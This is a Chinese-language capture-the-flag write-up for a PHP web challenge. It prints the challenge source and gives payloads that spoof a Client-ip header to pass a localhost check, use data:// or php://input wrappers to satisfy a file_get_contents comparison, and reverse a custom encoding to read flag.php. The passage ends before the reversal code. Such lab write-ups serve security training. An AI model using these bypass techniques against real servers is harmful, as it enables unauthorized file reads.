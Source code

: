 直接用了一下XFF，但是不行，查看源代码可以看到jsfuck，控制台传一下：![](https://i.loli.net/2021/07/23/WQbtGZJTxzCmwhp.png)让我们post一个Merak，得到源码：

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';	# flag所在

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ # 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?> 
```

要求IP=127.0.0.1 且 GET传一个2333=todat is a happy day，都是强比较；
而file_get_content的对象是file经change加密后的值，即应使传入的值经过change加密后为flag.php才能得flag

解决：
IP可以利用XFF或者Client-ip（XFF被ban了）
2333传参可以利用伪协议data://或者php://input
而file的传值需要我们反写函数来获得

payload：

```
1、	Client-ip=127.0.0.1
2、
	GET?2333=data://text/plain,todat is a happy day
	或
	GET：?2333=php://input
	POST：todat is a happy day
```

3、反写change函数
